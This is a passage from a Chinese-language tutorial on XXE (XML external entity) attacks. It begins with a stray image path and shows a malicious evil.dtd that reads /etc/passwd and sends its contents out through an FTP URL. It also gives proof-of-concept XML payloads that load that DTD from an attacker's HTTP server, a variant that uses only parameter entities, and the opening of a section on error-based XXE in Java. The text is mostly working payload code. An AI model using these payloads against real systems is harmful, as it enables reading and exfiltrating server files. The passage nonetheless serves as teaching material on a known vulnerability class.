 首先将`evil.dtd` 存放于VPS HTTP服务器上

```dtd
	<!ENTITY % passwd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM  'ftp://127.0.0.1/%passwd;'>">
	%wrapper;

```

POC如下：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
	%dtd;
]>
<root>&send;</root>

```

如果不清楚服务器解析哪些标签数据，我们可只使用参数实体：

```dtd
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY &#x25; send SYSTEM  'ftp://127.0.0.1/%passwd;'>">
%wrapper; %send;
```

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd"> 
	%dtd;
]>

```





### 报错型

在Java中，当我们的 systemId 的协议为 `jar://`、`file://` 或前缀为 `url:` 时，文件不存在或其他错误导致程序抛出异常时，异常数据会包含该 systemid  （ url不是协议，后续需要跟file http 等），当如果服务器返回了这个 异常数据，我们就通过这个抛异常来进行XXE文件读取漏洞利用。

<img src="XXE概要/err_based_1.png" alt="err_based_1" style="zoom:67%;" />

